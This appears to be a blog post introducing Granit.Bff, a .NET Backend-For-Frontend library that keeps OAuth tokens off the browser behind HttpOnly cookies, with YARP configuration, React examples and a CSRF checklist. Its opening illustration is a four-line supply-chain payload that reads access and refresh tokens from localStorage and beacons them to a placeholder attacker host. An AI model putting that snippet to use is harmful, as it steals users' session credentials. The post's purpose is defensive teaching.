


import { Tabs, TabItem, Aside, Steps, Badge } from "@astrojs/starlight/components";

You have just deployed your React admin panel. Logins are working, API calls flow smoothly, and the team is celebrating. Three weeks later, a security advisory drops: a popular npm package in your dependency tree — one that 14 million projects depend on — shipped a compromised version. The attacker's payload is four lines of JavaScript that run in every user's browser:

```js title="The attack — 4 lines, game over"
// Injected by compromised dependency
const t = localStorage.getItem("access_token");
const r = localStorage.getItem("refresh_token");
navigator.sendBeacon("https://evil.example/collect", JSON.stringify({ t, r }));
```

The attacker now has valid access tokens for every user who opened your app during the window. They can call your API, impersonate administrators, exfiltrate data, and escalate privileges. Your incident response team cannot revoke the tokens fast enough because the refresh tokens are also compromised — the attacker keeps minting new access tokens.

This is not hypothetical. It has happened to `event-stream`, `ua-parser-js`, `coa`, `rc`, and dozens of other packages. The attack surface is `localStorage` and `sessionStorage`: any JavaScript running in the page can read them, and you cannot control every line of JavaScript that runs in the page.

## The fundamental problem with SPAs and tokens

Traditional SPA authentication flows look like this:



The browser receives the tokens. It stores them somewhere JavaScript can access. Every script on the page — your code, your dependencies, your dependencies' dependencies, analytics snippets, browser extensions — can read those tokens.

You might be thinking: "I'll use `sessionStorage` instead" or "I'll keep them in memory." `sessionStorage` is still readable by any script in the same tab. In-memory storage is better but does not survive page refreshes, breaks multi-tab scenarios, and still exposes tokens to XSS if an attacker can execute code in your application's context.

The [IETF draft "OAuth 2.0 for Browser-Based Apps"](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-browser-based-apps) (Section 6.2) is direct about this:

> *"A browser-based application that wishes to use either long-lived refresh tokens or access tokens with an audience broader than the application's own backend SHOULD use a Backend For Frontend."*

The RFC is not suggesting you try harder with `localStorage`. It is saying: **move the tokens off the browser entirely**.

## The solution: Backend For Frontend

The BFF pattern is straightforward. Instead of your React app talking directly to the identity provider and handling tokens, a thin backend component does it. The browser never sees a token. It sees a cookie — and that cookie is `HttpOnly`, `Secure`, and `SameSite=Strict`. JavaScript literally cannot read it.



The difference is stark:

| Concern | SPA handles tokens | BFF handles tokens |
| --- | --- | --- |
| **Token storage** | `localStorage` / memory | Server-side distributed cache |
| **Readable by JS** | Yes | No |
| **XSS token theft** | Possible | Impossible |
| **Token refresh** | SPA must implement | Automatic, transparent |
| **Supply-chain attack** | Full token access | No token access |
| **Cookie security** | N/A | `HttpOnly + Secure + SameSite=Strict` |
| **CSRF protection** | Not needed (no cookies) | Required (double-submit pattern) |

You trade one concern (XSS on tokens) for another (CSRF on cookies), but CSRF is a solved problem with well-understood mitigations. XSS on tokens is not.

## How Granit.Bff works

Granit ships the BFF pattern as three NuGet packages, following the standard Granit module layering:

| Package | Responsibility |
| --- | --- |
| `Granit.Bff` | Abstractions: `IBffTokenStore`, `IBffCsrfTokenGenerator`, `BffTokenSet`, options, metrics |
| `Granit.Bff.Endpoints` | Minimal API endpoints: login, callback, logout, user claims, CSRF token |
| `Granit.Bff.Yarp` | YARP reverse proxy transforms: token injection, CSRF validation, silent refresh |

You install all three in your host project. The module system wires everything through `[DependsOn]` — no manual service registration.

### The login flow

<Steps>
1. The React app redirects to `GET /bff/login`.
2. The BFF generates a PKCE code verifier + challenge, stores the verifier in the distributed cache, and redirects the browser to the OIDC authorization endpoint.
3. The user authenticates with the identity provider.
4. The identity provider redirects back to `GET /bff/callback` with an authorization code.
5. The BFF exchanges the code for tokens **server-side** (using the stored PKCE verifier + the confidential client secret).
6. Tokens are stored in Redis (or any `IDistributedCache`) under a random session ID.
7. The browser receives a `Set-Cookie` header with that session ID. The cookie is `HttpOnly`, `Secure`, `SameSite=Strict`, and uses the `__Host-` prefix.
8. The browser is redirected to the post-login path.
</Steps>

The browser never sees the access token, the refresh token, or the ID token. It holds a random session ID in a cookie it cannot read.

### The API call flow

When the React app makes an API call (e.g., `fetch("/api/users")`), the browser automatically includes the session cookie. The YARP reverse proxy:

1. Reads the session cookie to identify the frontend and session.
2. Loads tokens from the distributed cache via `IBffTokenStore`.
3. Checks if the access token is about to expire (within the configurable grace period).
4. If expiring, silently refreshes the token using the refresh token and updates the cache.
5. Injects `Authorization: Bearer {access_token}` into the upstream request.
6. Forwards the request to the backend API.

The React app does not know any of this is happening. It calls `/api/users`, the proxy handles the rest.

### CSRF protection

Cookies introduce CSRF risk. A malicious site could trick a user's browser into making a request to your API, and the browser would dutifully include the session cookie.

Granit.Bff uses the **double-submit pattern** with HMAC-SHA256:

1. The SPA calls `POST /bff/csrf-token` to get a CSRF token bound to its session.
2. On every mutating request (`POST`, `PUT`, `DELETE`, `PATCH`), the SPA includes the token in the `X-CSRF-Token` header.
3. The `BffCsrfValidationTransform` validates the HMAC before the request is proxied. Invalid or missing tokens get a `403 Forbidden`.

The CSRF token is session-bound and time-limited (24-hour sliding window). It is safe to store in JavaScript memory because it is useless without the `HttpOnly` session cookie — which the attacker cannot read.

## Multi-frontend: one backend, many SPAs

Real-world platforms rarely have a single SPA. The [Guava platform](https://granit-fx.dev) serves four distinct frontends — Admin, Physician, Patient, and Insurer — each with different user populations, permissions, and OIDC scopes. All four share the same backend API and identity provider.

Granit.Bff supports this natively. Each frontend gets its own:

- OIDC client (confidential, with its own client ID and scopes)
- Session cookie (named `__Host-bff-{name}`)
- Path prefix (e.g., `/admin`, `/patient`, `/physician`)
- Post-login and post-logout redirects
- Static file serving with SPA fallback

```json title="appsettings.json — multi-frontend configuration"
{
  "Bff": {
    "Authority": "https://auth.guava-platform.be",
    "SessionDuration": "08:00:00",
    "RefreshGracePeriod": "00:01:00",
    "Frontends": [
      {
        "Name": "admin",
        "ClientId": "guava-admin",
        "ClientSecret": "$(vault:guava/admin-client-secret)",
        "Scopes": ["openid", "profile", "email", "roles", "admin", "offline_access"],
        "PathPrefix": "/admin",
        "StaticFilesPath": "wwwroot/admin"
      },
      {
        "Name": "patient",
        "ClientId": "guava-patient",
        "ClientSecret": "$(vault:guava/patient-client-secret)",
        "Scopes": ["openid", "profile", "email", "roles", "patient:read", "offline_access"],
        "PathPrefix": "/patient",
        "StaticFilesPath": "wwwroot/patient"
      }
    ]
  },
  "ReverseProxy": {
    "Routes": {
      "admin-api": {
        "ClusterId": "main-api",
        "Match": { "Path": "/admin/api/{**catch-all}" },
        "Metadata": {
          "Granit.Bff.RequireAuth": "true",
          "Granit.Bff.Frontend": "admin"
        }
      },
      "patient-api": {
        "ClusterId": "main-api",
        "Match": { "Path": "/patient/api/{**catch-all}" },
        "Metadata": {
          "Granit.Bff.RequireAuth": "true",
          "Granit.Bff.Frontend": "patient"
        }
      }
    },
    "Clusters": {
      "main-api": {
        "Destinations": {
          "srv1": { "Address": "https://api.guava-platform.be" }
        }
      }
    }
  }
}
```

A single .NET host serves all frontends through the same YARP proxy. The `Granit.Bff.Frontend` metadata on each YARP route tells the token injection transform which session cookie to read. No shared state between frontends — a compromised patient session cannot access admin endpoints.

## Getting started in 5 minutes

### 1. Install the packages

```bash title="Terminal"
dotnet add package Granit.Bff.Endpoints
dotnet add package Granit.Bff.Yarp
```

### 2. Configure the host

```csharp title="Program.cs"
var builder = WebApplication.CreateBuilder(args);

builder.AddGranitBffYarp();

var app = builder.Build();

app.MapGranitBff();
app.UseGranitBffYarp();

app.Run();
```

Three lines. The module system registers `IBffTokenStore`, `IBffCsrfTokenGenerator`, metrics, activity sources, YARP transforms, and all endpoints automatically.

### 3. Add the configuration

```json title="appsettings.json"
{
  "Bff": {
    "Authority": "https://your-identity-provider.com",
    "Frontends": [
      {
        "Name": "app",
        "ClientId": "your-client-id",
        "ClientSecret": "your-client-secret",
        "Scopes": ["openid", "profile", "email", "roles", "offline_access"],
        "PathPrefix": "",
        "StaticFilesPath": "wwwroot"
      }
    ]
  },
  "ReverseProxy": {
    "Routes": {
      "api": {
        "ClusterId": "backend",
        "Match": { "Path": "/api/{**catch-all}" },
        "Metadata": { "Granit.Bff.RequireAuth": "true" }
      }
    },
    "Clusters": {
      "backend": {
        "Destinations": {
          "srv1": { "Address": "https://localhost:5001" }
        }
      }
    }
  }
}
```

### 4. Update the React app

The React app changes are minimal. You stop using `@auth0/react`, `oidc-client-ts`, or whatever OIDC library you were using, and replace it with simple cookie-based auth calls:

<Tabs>
  <TabItem label="Before (token-based)">
    ```tsx title="AuthProvider.tsx"
    import { useAuth } from "react-oidc-context";

    function App() {
      const auth = useAuth();

      if (!auth.isAuthenticated) {
        return <button onClick={() => auth.signinRedirect()}>Log in</button>;
      }

      return <Dashboard user={auth.user} />;
    }
    ```
  </TabItem>
  <TabItem label="After (BFF)">
    ```tsx title="AuthProvider.tsx"
    import { useEffect, useState } from "react";

    interface BffUser {
      authenticated: boolean;
      sub?: string;
      name?: string;
      email?: string;
      roles?: string[];
    }

    function App() {
      const [user, setUser] = useState<BffUser | null>(null);

      useEffect(() => {
        fetch("/bff/user", { credentials: "include" })
          .then((r) => r.json())
          .then(setUser);
      }, []);

      if (!user?.authenticated) {
        return <a href="/bff/login">Log in</a>;
      }

      return <Dashboard user={user} />;
    }
    ```
  </TabItem>
</Tabs>

The key change: **no token management library, no token storage, no refresh logic**. The React app calls `/bff/user` to check authentication status and links to `/bff/login` for login. API calls use `fetch` with `credentials: "include"` so the browser sends the session cookie automatically.

For mutating requests, include the CSRF token:

```tsx title="api.ts — CSRF-protected API calls"
let csrfToken: string | null = null;

async function getCsrfToken(): Promise<string> {
  if (csrfToken) return csrfToken;
  const res = await fetch("/bff/csrf-token", {
    method: "POST",
    credentials: "include",
  });
  const data = await res.json();
  csrfToken = data.csrfToken;
  return csrfToken;
}

export async function apiPost<T>(url: string, body: unknown): Promise<T> {
  const token = await getCsrfToken();
  const res = await fetch(url, {
    method: "POST",
    credentials: "include",
    headers: {
      "Content-Type": "application/json",
      "X-CSRF-Token": token,
    },
    body: JSON.stringify(body),
  });
  return res.json();
}
```

Your existing React components and API hooks do not change. Only the authentication provider and the API call wrapper change.

## Security checklist

If you are deploying Granit.Bff to production, verify each of these:

| Check | Why | Granit default |
| --- | --- | --- |
| `__Host-` cookie prefix | Prevents cookie injection from subdomains; requires `Secure`, `Path=/`, no `Domain` | Yes |
| `HttpOnly` flag | JavaScript cannot read the cookie | Yes |
| `Secure` flag | Cookie only sent over HTTPS | Yes |
| `SameSite=Strict` | Cookie not sent on cross-origin requests | Yes |
| CSRF double-submit | HMAC-SHA256 token validated on `POST`/`PUT`/`DELETE`/`PATCH` | Yes |
| Token encryption at rest | Use Redis TLS or encrypted `IDistributedCache` | Configure via infra |
| Session duration limit | `SessionDuration` defaults to 8 hours | Yes |
| PKCE on login flow | Code challenge prevents authorization code interception | Yes |
| Confidential client | Client secret stored server-side, never in the SPA bundle | Yes |
| `X-Frame-Options: DENY` | Prevents clickjacking on login/callback routes | Yes |
| Monitoring: `granit.bff.csrf.rejections` | Alert on CSRF attacks | Metric available |
| Monitoring: `granit.bff.proxy.errors` | Alert on session expiry spikes, upstream failures | Metric available |

<Aside type="tip" title="OpenTelemetry metrics">
Granit.Bff exposes six counters under the `Granit.Bff` meter: logins, logouts, token refreshes, proxy requests, proxy errors (with `reason` tag), and CSRF rejections. All include a `tenant_id` tag. Wire them to your Grafana dashboard to detect anomalies — a sudden spike in `csrf.rejections` is a strong signal of an active attack.
</Aside>

## When NOT to use BFF

The BFF pattern is not universal. Skip it when:

- **Mobile apps**: Native iOS and Android apps have secure keychain/keystore storage that is not accessible to other apps. Use the native OIDC flow with PKCE and store tokens in the platform's secure enclave.
- **Server-rendered apps**: If you are using Blazor Server, Next.js with server-side rendering, or Razor Pages, the server already handles the session. You do not need a separate BFF — the server is the BFF.
- **API-to-API communication**: Machine-to-machine flows use `client_credentials` grant. There is no browser, no cookie, no user session. A BFF adds nothing here.
- **Single-page apps with no sensitive data**: If your SPA is a public dashboard with no user-specific data and no write operations, the overhead of a BFF may not be justified. But the moment you add login, you should add BFF.

## The bottom line

The browser is a hostile environment. You do not control the JavaScript that runs in it — your dependencies do, and their dependencies do, and the next supply-chain attack will too. Every token stored in `localStorage` is a token waiting to be stolen.

Granit.Bff moves the security boundary from the browser to the server. Tokens live in Redis, protected by infrastructure you control. The browser holds a random session ID in a cookie it cannot read, cannot send cross-origin, and cannot access from JavaScript. Token refresh happens silently on the server. CSRF is handled by HMAC-SHA256 double-submit.

Three packages. Three lines of configuration code. Zero tokens in the browser.

---

**Resources:**

- [Granit.Bff source code](https://github.com/granit-fx/granit-dotnet/tree/develop/src/Granit.Bff)
- [IETF: OAuth 2.0 for Browser-Based Apps](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-browser-based-apps)
- [Isolated DbContext per Module](/blog/isolated-dbcontext-per-module/) — the same principle of isolation applied to data
- [Introducing Granit](/blog/introducing-granit/) — framework overview
